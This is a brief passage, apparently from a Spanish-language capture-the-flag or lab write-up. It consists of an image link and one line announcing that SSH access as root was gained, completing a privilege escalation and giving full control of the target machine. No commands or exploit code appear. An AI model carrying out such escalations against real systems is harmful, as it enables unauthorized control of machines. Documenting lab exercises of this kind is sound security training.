

> ¡Perfecto! Conseguimos acceder mediante SSH como `root`, completando así la escalada de privilegios y obteniendo el control total de la máquina.